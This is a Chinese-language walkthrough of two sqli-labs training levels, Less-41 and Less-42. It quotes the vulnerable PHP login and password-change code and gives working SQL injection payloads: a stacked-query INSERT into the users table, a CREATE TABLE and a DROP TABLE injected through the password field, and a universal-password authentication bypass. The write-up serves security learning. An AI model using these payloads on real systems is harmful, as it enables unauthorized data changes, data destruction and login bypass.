 ## 0X2DLess-41

与less-39是一致的，区别在于41错误不回显。所以我们称之为盲注。

Payload：

?id=1;insert into users(id,username,password) values ('41','less41','hello')--+



## 0X2ELess-42

pass_change.php关键代码

```
$username= $_SESSION["username"];
$curr_pass= mysql_real_escape_string($_POST['current_password']);
$pass= mysql_real_escape_string($_POST['password']);
$re_pass= mysql_real_escape_string($_POST['re_password']);
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```

pdate更新数据后，经过mysql_real_escape_string()处理后的数据，存入到数据库当中后不会发生变化。在select调用的时候才能发挥作用。所以不用考虑在更新密码处进行注入，这关和二次注入的思路是不一样的。

本关从login.php源代码中分析可知：

```
$username = mysqli_real_escape_string($con1,$_POST["login_user"]);
$password = $_POST["login_password"];
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
```

Password变量在post过程中，没有通过mysql_real_escape_string()函数的处理。因此在登录的时候密码选项我们可以进行attack。

通过报错猜测闭合

![image-20201112150746787](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112150746787.png)

![image-20201111175146215](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111175146215.png)

用户名随意，Password:c';create table less42 like users#

![image-20201111175402223](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111175402223.png)

![image-20201111175309911](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111175309911.png)

c';drop table less42#删除表

![image-20201111175702054](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111175702054.png)



或者**万能密码**绕过 `1' or 1#`

![image-20201112152104825](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112152104825.png)
